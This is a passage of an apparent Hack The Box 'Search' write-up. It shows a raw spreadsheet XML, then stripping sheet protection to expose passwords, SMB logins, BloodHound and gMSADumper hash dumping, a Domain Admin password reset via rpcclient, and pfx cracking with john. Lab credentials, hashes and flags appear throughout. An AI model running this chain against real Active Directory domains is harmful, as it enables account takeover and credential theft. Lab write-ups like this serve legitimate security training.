<worksheet xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships" xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006" mc:Ignorable="x14ac xr xr2 xr3" xmlns:x14ac="http://schemas.microsoft.com/office/spreadsheetml/2009/9/ac" xmlns:xr="http://schemas.microsoft.com/office/spreadsheetml/2014/revision" xmlns:xr2="http://schemas.microsoft.com/office/spreadsheetml/2015/revision2" xmlns:xr3="http://schemas.microsoft.com/office/spreadsheetml/2016/revision3" xr:uid="{00000000-0001-0000-0100-000000000000}"><dimension ref="A1:D17"/><sheetViews><sheetView tabSelected="1" workbookViewId="0"><selection activeCell="F19" sqref="F19"/></sheetView></sheetViews><sheetFormatPr defaultRowHeight="15" x14ac:dyDescent="0.25"/><cols><col min="1" max="1" width="10.140625" bestFit="1" customWidth="1"/><col min="3" max="3" width="37.5703125" hidden="1" customWidth="1"/><col min="4" max="4" width="19.140625" bestFit="1" customWidth="1"/></cols><sheetData><row r="1" spans="1:4" x14ac:dyDescent="0.25"><c r="A1" t="s"><v>0</v></c><c r="B1" t="s"><v>1</v></c><c r="C1" t="s"><v>2</v></c><c r="D1" t="s"><v>31</v></c></row><row r="2" spans="1:4" x14ac:dyDescent="0.25"><c r="A2" t="s"><v>3</v></c><c r="B2" t="s"><v>4</v></c><c r="C2" t="s"><v>44</v></c><c r="D2" t="str"><f t="shared" ref="D2:D7" si="0">A2&amp;"."&amp;B2</f><v>Payton.Harmon</v></c></row><row r="3" spans="1:4" x14ac:dyDescent="0.25"><c r="A3" t="s"><v>5</v></c><c r="B3" t="s"><v>6</v></c><c r="C3" t="s"><v>45</v></c><c r="D3" t="str"><f t="shared" si="0"/><v>Cortez.Hickman</v></c></row><row r="4" spans="1:4" x14ac:dyDescent="0.25"><c r="A4" t="s"><v>7</v></c><c r="B4" t="s"><v>8</v></c><c r="C4" t="s"><v>46</v></c><c r="D4" t="str"><f t="shared" si="0"/><v>Bobby.Wolf</v></c></row><row r="5" spans="1:4" x14ac:dyDescent="0.25"><c r="A5" t="s"><v>9</v></c><c r="B5" t="s"><v>10</v></c><c r="C5" t="s"><v>35</v></c><c r="D5" t="str"><f t="shared" si="0"/><v>Margaret.Robinson</v></c></row><row r="6" spans="1:4" x14ac:dyDescent="0.25"><c r="A6" t="s"><v>12</v></c><c r="B6" t="s"><v>13</v></c><c r="C6" s="2" t="s"><v>36</v></c><c r="D6" t="str"><f t="shared" si="0"/><v>Scarlett.Parks</v></c></row><row r="7" spans="1:4" x14ac:dyDescent="0.25"><c r="A7" t="s"><v>14</v></c><c r="B7" t="s"><v>15</v></c><c r="C7" t="s"><v>37</v></c><c r="D7" t="str"><f t="shared" si="0"/><v>Eliezer.Jordan</v></c></row><row r="8" spans="1:4" x14ac:dyDescent="0.25"><c r="A8" t="s"><v>16</v></c><c r="B8" t="s"><v>17</v></c><c r="C8" t="s"><v>38</v></c><c r="D8" t="str"><f t="shared" ref="D8:D15" si="1">A8&amp;"."&amp;B8</f><v>Hunter.Kirby</v></c></row><row r="9" spans="1:4" x14ac:dyDescent="0.25"><c r="A9" t="s"><v>29</v></c><c r="B9" t="s"><v>30</v></c><c r="C9" s="3" t="s"><v>48</v></c><c r="D9" t="str"><f>A9&amp;"."&amp;B9</f><v>Sierra.Frye</v></c></row><row r="10" spans="1:4" x14ac:dyDescent="0.25"><c r="A10" t="s"><v>18</v></c><c r="B10" t="s"><v>19</v></c><c r="C10" s="2" t="s"><v>39</v></c><c r="D10" t="str"><f t="shared" si="1"/><v>Annabelle.Wells</v></c></row><row r="11" spans="1:4" x14ac:dyDescent="0.25"><c r="A11" t="s"><v>20</v></c><c r="B11" t="s"><v>21</v></c><c r="C11" t="s"><v>40</v></c><c r="D11" t="str"><f t="shared" si="1"/><v>Eve.Galvan</v></c></row><row r="12" spans="1:4" x14ac:dyDescent="0.25"><c r="A12" t="s"><v>22</v></c><c r="B12" t="s"><v>23</v></c><c r="C12" t="s"><v>41</v></c><c r="D12" t="str"><f t="shared" si="1"/><v>Jeramiah.Fritz</v></c></row><row r="13" spans="1:4" x14ac:dyDescent="0.25"><c r="A13" t="s"><v>24</v></c><c r="B13" t="s"><v>25</v></c><c r="C13" t="s"><v>42</v></c><c r="D13" t="str"><f t="shared" si="1"/><v>Abby.Gonzalez</v></c></row><row r="14" spans="1:4" x14ac:dyDescent="0.25"><c r="A14" t="s"><v>26</v></c><c r="B14" t="s"><v>11</v></c><c r="C14" t="s"><v>43</v></c><c r="D14" t="str"><f t="shared" si="1"/><v>Joy.Costa</v></c></row><row r="15" spans="1:4" x14ac:dyDescent="0.25"><c r="A15" t="s"><v>27</v></c><c r="B15" t="s"><v>28</v></c><c r="C15" t="s"><v>47</v></c><c r="D15" t="str"><f t="shared" si="1"/><v>Vincent.Sutton</v></c></row><row r="17" spans="3:3" x14ac:dyDescent="0.25"><c r="C17" s="4"/></row></sheetData><sheetProtection algorithmName="SHA-512" hashValue="hFq32ZstMEekuneGzHEfxeBZh3hnmO9nvv8qVHV8Ux+t+39/22E3pfr8aSuXISfrRV9UVfNEzidgv+Uvf8C5Tg==" saltValue="U9oZfaVCkz5jWdhs9AA8nA==" spinCount="100000" sheet="1" objects="1" scenarios="1"/><pageMargins left="0.7" right="0.7" top="0.75" bottom="0.75" header="0.3" footer="0.3"/><pageSetup paperSize="9" orientation="portrait" r:id="rId1"/></worksheet>
```

Remove the ```sheetProtection```:
```xml
<sheetProtection algorithmName="SHA-512" hashValue="hFq32ZstMEekuneGzHEfxeBZh3hnmO9nvv8qVHV8Ux+t+39/22E3pfr8aSuXISfrRV9UVfNEzidgv+Uvf8C5Tg==" saltValue="U9oZfaVCkz5jWdhs9AA8nA==" spinCount="100000" sheet="1" objects="1" scenarios="1"/><pageMargins left="0.7" right="0.7" top="0.75" bottom="0.75" header="0.3" footer="0.3"/>
```

Save the file ```sheet2.xml``` and rename again the extension from ```zip``` to ```xlsx```.

Now, Let's open it again and we can see the passwords:



Let's login to the user ```Sierra.Frye``` with the password ```$$49=wide=STRAIGHT=jordan=28$$18``` to get the user flag:
```console
┌─[evyatar@parrot]─[/hackthebox/Search]
└──╼ $ smbclient \\\\search.htb\\RedirectedFolders$ -U Sierra.Frye -W search.htb
Enter SEARCH.HTB\Sierra.Frye's password: 
Try "help" to get a list of possible commands.
smb: \> cd Sierra.frye
smb: \Sierra.frye\> dir
  .                                  Dc        0  Thu Nov 18 03:01:46 2021
  ..                                 Dc        0  Thu Nov 18 03:01:46 2021
  Desktop                           DRc        0  Thu Nov 18 03:08:00 2021
  Documents                         DRc        0  Fri Jul 31 17:42:19 2020
  Downloads                         DRc        0  Fri Jul 31 17:45:36 2020
  user.txt                           Ac       33  Thu Nov 18 02:55:27 2021

		3246079 blocks of size 4096. 518852 blocks available
smb: \Sierra.frye\> cd Desktop
smb: \Sierra.frye\Desktop\> get user.txt
getting file \Sierra.frye\Desktop\user.txt of size 34 as user.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \Sierra.frye\Desktop\> 
```

And we get the user flag ```0b49e2097081466b931dd3ee711c8330```.

### Root

#### Method 1 - Using BloodHound, gMSADumper and rpcclient

Let's run [python bloodhound](https://github.com/fox-it/BloodHound.py):
```console
┌─[evyatar@parrot]─[/hackthebox/Search]
└──╼ $ python3 bloodhound.py -c all -u Sierra.Frye -d search.htb -gc search.htb -ns 10.10.11.129 --zip
Password: 
INFO: Found AD domain: search.htb
INFO: Connecting to LDAP server: research.search.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 113 computers
INFO: Connecting to LDAP server: research.search.htb
INFO: Found 106 users
INFO: Found 63 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: Windows-100.search.htb
INFO: Querying computer: Windows-99.search.htb
INFO: Querying computer: Windows-98.search.htb
...
INFO: Done in 00M 57S
INFO: Compressing output into 20220429014341_bloodhound.zip
```

Import the zip file to ```bloodhound``` and run ```Find Shortest Paths to Domain Admins```:



The user ```Sierra.Frye``` is a member of group ```BIRMINGHAM-ITSEC@SEARCH.HTB``` which is a member of ```ITSEC@SEARCH.HTB``` with ```ReadGMSAPassword``` permission to ```BIR-ADFS-GMSA@SEARCH.HTB``` user, Using this user we have ```Generic All``` permission to ```Tristan.Davies``` user which is member of Domain Admins.

Let's run [gMSADumper](https://github.com/micahvandeusen/gMSADumper):
```console
┌─[evyatar@parrot]─[/hackthebox/Search]
└──╼ $ python3 gMSADumper.py -u Sierra.Frye -d search.htb -p \$\$49=wide=STRAIGHT=jordan=28\$\$18
Users or groups who can read password for BIR-ADFS-GMSA$:
 > ITSec
BIR-ADFS-GMSA$:::e1e9fd9e46d0d747e1595167eedcec0f
```

Connect to RPC using ```rpcclient``` with this NT-hash (the password is ```e1e9fd9e46d0d747e1595167eedcec0f```):
```console
┌─[evyatar@parrot]─[/hackthebox/Search]
└──╼ $ rpcclient //search.htb -U search.htb/BIR-ADFS-GMSA$ --pw-nt-hash
Enter SEARCH.HTB\BIR-ADFS-GMSA$'s password: 
rpcclient $> 
```

We can reset the password of ```Tristan.Davies```:
```console
rpcclient $> setuserinfo2 Tristan.Davies 23 'ASDqwe123'
```

Let's connect to SMB with the new password of ```Tristan.Davies:ASDqwe123```:
```console
smbclient \\\\search.htb\\C$ -U Tristan.Davies
Enter WORKGROUP\Tristan.Davies's password: 
Try "help" to get a list of possible commands.
smb: \> cd \users\administrator\desktop\
smb: \users\administrator\desktop\> dir
  .                                 DRc        0  Mon Nov 22 22:21:49 2021
  ..                                DRc        0  Mon Nov 22 22:21:49 2021
  desktop.ini                       AHS      282  Mon Nov 22 22:21:49 2021
  root.txt                          ARc       34  Thu Apr 28 00:07:18 2022

		3246079 blocks of size 4096. 518348 blocks available
smb: \users\administrator\desktop\> get root.txt
getting file \users\administrator\desktop\root.txt of size 34 as root.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)

```

And we get the root flag ```cad249318a3dee2c4cfa69685e1be297```.


#### Method 2 - Using .pfx,.p12 files

By enumerating on ```Sierra.Frye``` folder we found a ```Backups``` file on ```Downloads```:
```console
smb: \Sierra.Frye\downloads\> dir
  .                                 DRc        0  Fri Jul 31 17:45:36 2020
  ..                                DRc        0  Fri Jul 31 17:45:36 2020
  $RECYCLE.BIN                     DHSc        0  Tue Apr  7 21:04:01 2020
  Backups                           DHc        0  Mon Aug 10 23:39:17 2020
  desktop.ini                      AHSc      282  Fri Jul 31 17:42:18 2020

		3246079 blocks of size 4096. 518810 blocks available
smb: \Sierra.Frye\downloads\> cd backups
dirsmb: \Sierra.Frye\downloads\backups\> dir
  .                                 DHc        0  Mon Aug 10 23:39:17 2020
  ..                                DHc        0  Mon Aug 10 23:39:17 2020
  search-RESEARCH-CA.p12             Ac     2643  Fri Jul 31 18:04:11 2020
  staff.pfx                          Ac     4326  Mon Aug 10 23:39:17 2020

		3246079 blocks of size 4096. 518810 blocks available
smb: \Sierra.Frye\downloads\backups\> 
```

By running ```gobuster``` before we found ```/Staff``` page.

Let's crack the ```staff.pfx``` password using ```john```:
```console
┌─[evyatar@parrot]─[/hackthebox/Search]
└──╼ $python2 pfx2john.py staff.pfx > hash_staff
┌─[evyatar@parrot]─[/hackthebox/Search]
└──╼ $john --wordlist=/rockyou.txt hash_staff 
Using default input encoding: UTF-8
Loaded 1 password hash (pfx [PKCS12 PBE (.pfx, .p12) (SHA-1 to SHA-512) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
misspissy        (staff.pfx)
1g 0:00:01:38 DONE (2022-04-29 02:20) 0.01016g/s 55754p/s 55754c/s 55754C/s misssnail..missnona16
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

And we get the password ```misspissy```.

Let's import the ```pfx``` and the ```p12``` files to Firefox:



Now by browsing to [https://research.search.htb/Staff](https://research.search.htb/Staff) we get PowerShell web access:



Let's use the credentials ```Sierra.Frye:$$49=wide=STRAIGHT=jordan=28$$18``` with computer name ```research.search.htb```:



And we get:



By enumerating the ```Users``` directory we see:



And we can see the user ```BIR-ADFS-GMSA$``` - we can move forward as we did before on method 1.